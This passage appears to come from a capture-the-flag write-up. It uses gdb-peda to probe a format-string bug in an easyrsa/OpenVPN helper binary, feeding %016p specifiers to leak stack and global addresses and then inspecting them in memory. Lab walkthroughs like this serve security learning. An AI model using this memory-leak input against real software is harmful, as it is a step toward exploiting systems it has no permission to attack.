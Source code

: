 

I'll add a break a couple instructions later and run it:



    gdb-peda$ b *printCN+401
    Breakpoint 1 at 0x1446
    gdb-peda$ r print %016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p



It hits the break point just after printing the results:



    0x0055555555915f.0x00000000000005.0x000000006e7076.0x00000000000014.0x007fffffffdbf0.           (nil).0x007fffffffe154.0x30252e7036313025.0x363130252e703631.0x2e70363130252e70[!] ERR reading /opt/easyrsa/clients/%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.ovpn!
    ...[snip]...
    Breakpoint 1, 0x0000555555555452 in printCN ()
    gdb-peda$



I can examine what's in memory at some of these addresses:



    gdb-peda$ x/s 0x0055555555915f
    0x55555555915f <EXT>:   ".ovpn"
    gdb-peda$ x/s 0x007fffffffdbf0
    0x7fffffffdbf0: "/opt/easyrsa/clients/%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.ovpn"
    gdb-peda$ x/s 0x007fffffffe154
    0x7fffffffe154: "%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p"



The first word is the pointer to the string ".ovpn". `gdb` is nice
enough to tell me it's the `EXT` variable, which is a global variable
defined here in the source:



     12 //easyrsa configuration
     13 char ERSA_DIR[]="/opt/easyrsa";
     14 char TA_KEY[]="/opt/easyrsa/clients/ta.key";
     15 char OUTPUT_DIR[]="/opt/easyrsa/clients";
     16 char BASE_CONFIG[]="/opt/easyrsa/clients/base.conf";
     17 char EXT[]=".ovpn";  



`gdb` will let me print it by variable name as well:



    gdb-peda$ x/s &EXT
    0x55555555915f <EXT>:   ".ovpn"



The other variables in this block sit right before it:

